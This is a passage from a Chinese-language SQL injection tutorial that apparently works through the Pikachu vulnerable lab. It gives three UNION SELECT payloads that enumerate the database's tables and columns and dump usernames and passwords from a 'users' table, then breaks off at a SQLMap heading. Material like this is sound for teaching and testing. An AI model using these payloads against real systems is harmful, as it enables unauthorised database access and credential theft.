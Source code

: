 ![image-20250121082814369](../../_media/image-20250121082814369.png)

后续操作同上，这里就不贴图了，直接放payload

```
id=-1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
```

```
id=-1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'#
```

```
id=-1' union select group_concat(username),group_concat(password) from users#
```

![image-20250121082940927](../../_media/image-20250121082940927.png)



#### SQLMap

查注入点：
